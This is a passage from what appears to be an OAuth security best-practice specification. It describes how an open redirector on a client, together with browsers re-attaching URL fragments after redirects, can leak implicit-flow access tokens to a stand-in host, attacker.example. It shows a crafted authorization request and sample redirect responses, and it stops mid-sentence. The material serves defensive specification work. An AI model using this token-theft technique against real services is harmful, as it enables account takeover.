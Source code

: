 Additionally, implicit clients can be subject to a further kind of
attack. It utilizes the fact that user agents re-attach fragments to
the destination URL of a redirect if the location header does not
contain a fragment (see [@!RFC9110], Section 17.11). The attack
described here combines this behavior with the client as an open
redirector (see (#open_redirector_on_client)) in order to obtain access tokens. This allows
circumvention even of very narrow redirect URI patterns, but not strict URL
matching.

Assume the registered URL pattern for client `s6BhdRkqt3` is
`https://client.somesite.example/cb?*`, i.e., any parameter is allowed
for redirects to `https://client.somesite.example/cb`. Unfortunately,
the client exposes an open redirector. This endpoint supports a
parameter `redirect_to` which takes a target URL and will send the
browser to this URL using an HTTP Location header redirect 303.

The attack can now be conducted as follows:

To begin, as above, the attacker needs to trick the user into opening
a tampered URL in their browser that launches a page under the
attacker's control, say `https://www.evil.example`.

Afterwards, the website initiates an authorization request that is
very similar to the one in the attack on the code flow. Different to
above, it utilizes the open redirector by encoding
`redirect_to=https://attacker.example` into the parameters of the
redirect URI and it uses the response type "token" (line breaks for display only):

    GET /authorize?response_type=token&state=9ad67f13
        &client_id=s6BhdRkqt3
        &redirect_uri=https%3A%2F%2Fclient.somesite.example
         %2Fcb%26redirect_to%253Dhttps%253A%252F
         %252Fattacker.example%252F HTTP/1.1
    Host: server.somesite.example

Now, since the redirect URI matches the registered pattern, the
authorization server permits the request and sends the resulting access
token in a 303 redirect (some response parameters omitted for
readability):

    HTTP/1.1 303 See Other
    Location: https://client.somesite.example/cb?
              redirect_to%3Dhttps%3A%2F%2Fattacker.example%2Fcb
              #access_token=2YotnFZFEjr1zCsicMWpAA&...

At client.somesite.example, the request arrives at the open redirector. The endpoint will
read the redirect parameter and will issue an HTTP 303 Location header
redirect to the URL `https://attacker.example/`.

    HTTP/1.1 303 See Other
    Location: https://attacker.example/

Since the redirector at client.somesite.example does not include a
fragment in the Location header, the user agent will re-attach the
original fragment `#access_token=2YotnFZFEjr1zCsicMWpAA&amp;...` to
the URL and will navigate to the following URL:
